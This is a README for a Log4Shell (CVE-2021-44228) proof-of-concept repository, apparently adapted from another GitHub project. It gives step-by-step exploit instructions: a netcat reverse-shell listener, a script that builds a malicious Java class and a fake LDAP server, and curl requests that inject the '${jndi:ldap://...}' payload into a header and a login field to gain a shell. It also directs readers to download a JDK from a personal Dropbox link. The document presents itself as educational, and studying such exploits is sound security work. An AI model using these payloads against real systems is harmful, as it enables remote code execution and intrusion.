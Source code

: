 # log4j-shell-poc

Cribbed from the great https://github.com/kozmer/log4j-shell-poc !!  
![log4j-shell-poc](https://user-images.githubusercontent.com/4404271/157141049-9ce9dc50-5d8e-4794-84ca-7148825401e4.gif)


A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>

#### Usage :

You need 4 terminals, or 3 terminals and a web browser!  
They are as follows:  

1) attacker terminal 1 of 3 (wow!): reverse shell cc reciever
2) attacker terminal 2 of 3: ldap listener enabler man in the middle jumper
3) attacker terminal 3 of 3: just a terminal to do a curl or use a web browser
4) victim terminal 1 of 1: run java app as docker container

Step 1) In terminal 1, Start  netcat to accept reverse shell connection:  
```py
nc -lvnp 9001
```

Step 2) In terminal 2, Launch the ldap listener jumper:  
**Note:** Must download jdk-8u202-linux-x64.tar.gz and extract to jdk1.8.0_202  

--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

Now run it like this:

```bash
pip install -r requirements.txt
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
This script will setup the HTTP server (not sure what the http is for, but whatevs) and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.  

Step 3) Our vulnerable application  
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Step 4) Attack!  

```c
curl http://127.0.0.1:8080 -v  | grep session  
<snip>  
< HTTP/1.1 200 OK  
< Server: Apache-Coyote/1.1  
< Set-Cookie: JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600; Path=/; HttpOnly  
< Content-Type: text/html;charset=ISO-8859-1  
<snip>  
curl -v -A "\${jndi:ldap://localhost:1389/a}" -X POST -d uname="\${jndi:ldap://localhost:1389/a}" --cookie JSESSIONID=2C4651F7F8F1FD3C73E544A7C5E3A600 http://127.0.0.1:8080/login  
<snip>  
>  
* upload completely sent off: 37 out of 37 bytes  
```  

Step 5) Profit!!  

In terminal 1, type 'env' or 'whoami' and have a biscotti ... you earned it!  



Once it is running, you can access it on localhost:8080

Getting the Java version.
--------------------------------------
--> I have saved it to my personal dropbox here www dot dropbox dot com/   s/7c1d5y6naqcrdyh/jdk-8u202-linux-x64.tar.gz?dl=0  

Kozmer did it with java-8u20 but Oracle seems to have scrubbed this off their download page, but they still had java-8u202 and that seemed fine. I updated the python script to use that path in a few place, and voila. If you can't get it from my dropbox, Oracle thankfully provides an archive for all previous java versions:  
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).  
Scroll down to `8u20` and download the tar.gz for amd64, and tar -xvfz in your log4j-shell-poc folder.

**Note:** Oracle makes you  make an account to be able to download the package :-)  

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.  
